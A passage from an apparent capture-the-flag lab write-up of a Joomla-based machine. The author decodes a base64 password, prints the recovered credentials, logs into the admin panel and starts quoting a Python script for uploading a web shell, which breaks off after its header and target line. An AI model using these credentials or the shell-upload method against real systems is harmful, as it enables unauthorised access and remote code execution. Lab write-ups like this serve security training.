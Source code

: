 Looks like we found something interesting. It turns out to be a password base64 encoded:

*Contents of secret.txt*

![Img](images/curl_pass.png "Img")

So credentials are ``Floris:Curling2018! ``. Then I tried to log in to the admin panel.

*Admin panel*

![Img](images/admin_panel.png "Img")

And we are in! Now we just need a way of getting RCE. I could have modified any PHP script in order to do so, but I found a python script that automated this for me (a bit lazy I know).

I modified it a bit to include my credentials and the URL and good to go!

```py
#!/usr/bin/env python
# joomla_shellup.py - small script to upload shell in Joomla
#
# 02.05.2017, rewrited: 27.05
# -- hint --
# To exploit this "feature" you will need valid credentials.'
# Based on latest (3.6.5-1) version.'
#   Tested also on: 3.7.x

import requests
import re

target = "http://10.10.10.150"

print '[+] Checking: ' + str(target)
```
